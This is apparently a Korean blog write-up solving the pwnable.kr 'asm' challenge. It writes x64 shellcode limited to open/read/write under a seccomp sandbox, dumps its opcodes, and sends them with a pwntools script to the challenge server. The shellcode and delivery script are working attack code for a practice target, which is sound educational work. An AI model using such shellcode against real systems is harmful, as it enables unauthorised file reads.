

이번 문제는 open, read, write, exit 시스템콜만으로 커스텀 쉘코드를 작성해서 flag 파일을 읽는것이 목표입니다. seccomp 우회라고 볼 수 있겠네요.

```c
/* 
Mommy! I think I know how to make shellcodes

ssh asm@pwnable.kr -p2222 (pw: guest)

===========================================================

asm@ubuntu:~$ checksec --file ./asm
[*] '/home/asm/asm'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox() {
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (ctx == NULL) {
        printf("seccomp error\n");
        exit(0);
    }

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

    if (seccomp_load(ctx) < 0) {
        seccomp_release(ctx);
        printf("seccomp error\n");
        exit(0);
    }
    seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char * argv[]) {

    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IOLBF, 0);

    printf("Welcome to shellcoding practice challenge.\n");
    printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
    printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
    printf("If this does not challenge you. you should play 'asg' challenge :)\n");

    char *sh = (char *) mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
    memset(sh, 0x90, 0x1000);
    memcpy(sh, stub, strlen(stub));

    int offset = sizeof(stub);
    printf("give me your x64 shellcode: ");
    read(0, sh + offset, 1000);

    alarm(10);
    chroot("/home/asm_pwn"); // you are in chroot jail. so you can't use symlink in /tmp
    sandbox();
    ((void(*)(void))sh)();
    return 0;
}
```

바이너리에 setgid 가 걸려있지 않아 readme 를 읽어봤더니 현재 asm, asm.c 는 분석용이고 권한상승 후 플래그를 얻으려면 nc 0 9026 에 페이로드를 전달해야 한다고 합니다.

```shell
asm@pwnable:~$ cat ./readme
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)
```

코드를 분석해보겠습니다. 일단 stub 에 넘어간 opcode 가 무엇을 의미할까요?

```plaintext
00000000002020c0 <stub>:
  2020c0:       48 31 c0                xor    %rax,%rax
  2020c3:       48 31 db                xor    %rbx,%rbx
  2020c6:       48 31 c9                xor    %rcx,%rcx
  2020c9:       48 31 d2                xor    %rdx,%rdx
  2020cc:       48 31 f6                xor    %rsi,%rsi
  2020cf:       48 31 ff                xor    %rdi,%rdi
  2020d2:       48 31 ed                xor    %rbp,%rbp
  2020d5:       4d 31 c0                xor    %r8,%r8
  2020d8:       4d 31 c9                xor    %r9,%r9
  2020db:       4d 31 d2                xor    %r10,%r10
  2020de:       4d 31 db                xor    %r11,%r11
  2020e1:       4d 31 e4                xor    %r12,%r12
  2020e4:       4d 31 ed                xor    %r13,%r13
  2020e7:       4d 31 f6                xor    %r14,%r14
  2020ea:       4d 31 ff                xor    %r15,%r15
```

거의 모든 레지스터들을 0으로 초기화 하는 opcode 였네요.

그 아래선 `mmap()` 으로 `0x41414000` 주소에 `0x1000` 사이즈만큼 쉘코드를 저장하고 실행할 수 있는 메모리 영역을 할당합니다.

```c
char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
/*
gdb-peda$ vmmap
Start              End                Perm      Name
0x41414000         0x41415000         rwxp      mapped
*/
```

여기에 앞서 본 stub 이 맨 앞에 배치되고 입력받은 쉘코드를 뒤에 추가한 뒤 실행하게 됩니다.

다만 seccomp 필터에 따라 open, read, write, exit 시스템 콜만 호출 가능합니다.



그림으로 보면 이렇게 됩니다. 입력 길이(1000)를 전체 길이(0x1000)와 헷갈리시면 안됩니다.

이제 쉘코드를 작성해야하는데 실제 flag의 파일명은 엄청 깁니다. 쉘코드 내에 모두 표현해야하는데 1바이트라도 틀리면 플래그를 읽을 수 없습니다.

또, `chroot(“/home/asm_pwn”);` 로 인해 /tmp 에 플래그 파일에 대한 심볼릭 링크도 생성이 안됩니다.

그러니 짧은 이름을 가진 파일을 만든 뒤 쉘코드를 작성해서 읽기 테스트를 먼저 해보겠습니다.

```shell
andrew@ubuntu:~/fun/writeups/wargame/pwnablekr/asm/practice$ cat ./test
abcd
andrew@ubuntu:~/fun/writeups/wargame/pwnablekr/asm/practice$ cat ./sh.a
global start

start:
    mov al, 0x02                ; sys_open
    push rdi                    ; 0x00
    mov rdi, 0x747365742f2e2f2e ; ./test
    push rdi
    mov rdi, rsp ; const char *filename
    xor rsi, rsi ; #define  O_RDONLY        0x0000
    syscall

    mov edi, eax ; unsigned int fd
    xor al, al   ; sys_read
    mov rsi, rsp ; char *buf
    mov dl, 0x04 ; size_t count
    syscall

    mov al, 0x01 ; sys_write
    xor rdi, rdi ; stdout
    add rdi, 0x01
    mov dl, 0x04
    syscall

    mov al, 0x60 ; sys_exit
    xor rdi, rdi
    syscall
andrew@ubuntu:~/fun/writeups/wargame/pwnablekr/asm/practice$ ./sh
abcdSegmentation fault (core dumped)
andrew@ubuntu:~/fun/writeups/wargame/pwnablekr/asm/practice$
```

잘 작동하니까 이제 진짜 쉘코드를 작성해보겠습니다.

```shell
andrew@ubuntu:~/fun/writeups/wargame/pwnablekr/asm/practice$ cat ./sh.a

global start

start:
    mov al, 0x02 ; sys_open
    xor rdi, rdi
    push rdi
    mov rdi, qword "0o0o0ong"
    push rdi
    mov rdi, qword "0o0o0o0o"
    push rdi
    mov rdi, qword "00000000"
    push rdi
    mov rdi, qword "ooooo000"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "000000oo"
    push rdi
    mov rdi, qword "00000000"
    push rdi
    mov rdi, qword "00000000"
    push rdi
    mov rdi, qword "ooooo000"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "oooooooo"
    push rdi
    mov rdi, qword "looooooo"
    push rdi
    mov rdi, qword "is_very_"
    push rdi
    mov rdi, qword "le_name_"
    push rdi
    mov rdi, qword "y_the_fi"
    push rdi
    mov rdi, qword "ile.sorr"
    push rdi
    mov rdi, qword "d_this_f"
    push rdi
    mov rdi, qword "ease_rea"
    push rdi
    mov rdi, qword "_file_pl"
    push rdi
    mov rdi, qword ".kr_flag"
    push rdi
    mov rdi, qword "_pwnable"
    push rdi
    mov rdi, qword "/this_is"
    push rdi
    mov rdi, qword "././././"
    push rdi

    mov rdi, rsp; const char *filename
    xor rsi, rsi ; #define  O_RDONLY        0x0000
    syscall

    mov edi, eax ; unsigned int fd
    xor al, al ; sys_read
    mov rsi, rsp ; char *buf
    mov dl, 0x64; size_t count
    syscall

    mov al, 0x01 ; sys_write
    xor rdi, rdi ; stdout
    add rdi, 0x01
    syscall

    mov al, 0x60 ; sys_exit
    xor rdi, rdi
    syscall
```

이제 opcode 를 추출한 뒤 nc 로 보내야 하는데, 이게 손으로 옮겨 적기엔 좀 깁니다.

어떤 분이 objdump 로 쉘코드 뽑는 방법을 공유해놓으셔서 그걸 사용했습니다.

[https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)

```shell
andrew@ubuntu:~/fun/writeups/wargame/pwnablekr/asm/practice$ objdump -d ./sh | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'
\xb0\x02\x48\x31\xff\x57\x48\xbf\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x57\x48\xbf\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x6f\x6f\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x30\x30\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x69\x73\x5f\x76\x65\x72\x79\x5f\x57\x48\xbf\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x57\x48\xbf\x79\x5f\x74\x68\x65\x5f\x66\x69\x57\x48\xbf\x69\x6c\x65\x2e\x73\x6f\x72\x72\x57\x48\xbf\x64\x5f\x74\x68\x69\x73\x5f\x66\x57\x48\xbf\x65\x61\x73\x65\x5f\x72\x65\x61\x57\x48\xbf\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x57\x48\xbf\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x57\x48\xbf\x5f\x70\x77\x6e\x61\x62\x6c\x65\x57\x48\xbf\x2f\x74\x68\x69\x73\x5f\x69\x73\x57\x48\xbf\x2e\x2f\x2e\x2f\x2e\x2f\x2e\x2f\x57\x48\x89\xe7\x48\x31\xf6\x0f\x05\x89\xc7\x30\xc0\x48\x89\xe6\xb2\x64\x0f\x05\xb0\x01\x48\x31\xff\x48\x83\xc7\x01\x0f\x05\xb0\x60\x48\x31\xff\x0f\x05
```

쉘코드가 완성되었습니다. 이제 nc 로 보내서 플래그를 읽어보겠습니다.

```python
#!/usr/bin/env python3

from pwn import *

context.update(arch="amd64", os="linux", bits="64")

# file_name = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"+"\x00"
# v1 = [""]*(int(len(file_name)/8)+8)

# for v0 in range(int(len(file_name)/8)):
#    v1[v0] = p64(int((file_name[(v0*8):(v0+1)*8].encode("ascii")).hex(), 16))

# print(hexdump(v1))

shellcode="\xb0\x02\x48\x31\xff\x57\x48\xbf\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x57\x48\xbf\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x6f\x6f\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x30\x30\x57\x48\xbf\x30\x30\x30\x30\x30\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x57\x48\xbf\x69\x73\x5f\x76\x65\x72\x79\x5f\x57\x48\xbf\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x57\x48\xbf\x79\x5f\x74\x68\x65\x5f\x66\x69\x57\x48\xbf\x69\x6c\x65\x2e\x73\x6f\x72\x72\x57\x48\xbf\x64\x5f\x74\x68\x69\x73\x5f\x66\x57\x48\xbf\x65\x61\x73\x65\x5f\x72\x65\x61\x57\x48\xbf\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x57\x48\xbf\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x57\x48\xbf\x5f\x70\x77\x6e\x61\x62\x6c\x65\x57\x48\xbf\x2f\x74\x68\x69\x73\x5f\x69\x73\x57\x48\xbf\x2e\x2f\x2e\x2f\x2e\x2f\x2e\x2f\x57\x48\x89\xe7\x48\x31\xf6\x0f\x05\x89\xc7\x30\xc0\x48\x89\xe6\xb2\x64\x0f\x05\xb0\x01\x48\x31\xff\x48\x83\xc7\x01\x0f\x05\xb0\x60\x48\x31\xff\x0f\x05"

conn_ssh = ssh(host="pwnable.kr", port=2222, user="asm", password="guest")
conn_nc = conn_ssh.remote("pwnable.kr", 9026)

conn_nc.send(shellcode)
print(conn_nc.recv(2024, timeout=0.5))
print(conn_nc.recv(2024, timeout=0.5))
```

끝나고 다른 분들 풀이를 봤는데 대부분 pwntools shellcraft 로 저보다 간단히 푸셨더라구요... 눈물...

shellcraft 는 다음 쉘코드 작성 문제가 또 나오면 한번 써보겠습니다.

읽어주셔서 감사합니다.